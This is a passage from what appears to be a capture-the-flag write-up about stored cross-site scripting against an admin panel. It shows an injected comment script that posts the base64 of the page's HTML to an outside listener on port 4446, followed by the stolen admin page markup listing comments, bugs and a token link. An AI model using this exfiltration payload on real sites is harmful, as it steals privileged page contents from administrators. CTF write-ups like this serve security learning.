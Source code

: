 ```html
      </div>
    </nav>

    <div class="container" id="content">


      <div>
        <h1>Good news!</h1>
        <div class="comment">
            <blockquote>
                <p>lol<script>$.post('http://standard.io:4446', {'a': btoa($('body')[0].innerHTML)})</script></p></blockquote></div></div></div>
```

`document.cookie` was empty/inaccessible so I guessed the links in the top panel are way to go.  We have only `admin/token`, `admin/bugs` and `admin/comments`. I first fetched `admin/bugs` the same way:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">

    <meta name="description" content="Admin">
    <meta name="author" content="The lonely admin">
    <link rel="icon" href="img/favicon.ico">

    <title>Admin</title>
    <base href="/">

    <link href="css/bootstrap.min.css" rel="stylesheet">

  </head>

  <body>

    <script src="js/jquery-2.1.4.min.js"></script>
    <script src="js/bootstrap.min.js"></script>
    <script src="js/admin.js"></script>

    <nav class="navbar navbar-inverse">
      <div class="container">
        <div class="navbar-header">
          <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
            <span class="sr-only">Toggle navigation</span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </button>
          <a class="navbar-brand" href="/admin/comments">Admin</a>
        </div>
        <div id="navbar" class="collapse navbar-collapse">
          <ul class="nav navbar-nav">
            <li class="active comments comment"><a href="/admin/comments">Comments</a></li>
            <li class="bugs"><a href="/admin/bugs">Bugs</a></li>
          </ul>
          <img src="img/spinner.svg" class="spinner pull-right" style="height: 50px; display: none;"/>
	<ul class="nav navbar-nav navbar-right">
	  <li class="token"><a href="/admin/token">HACK - Token</a></li>
```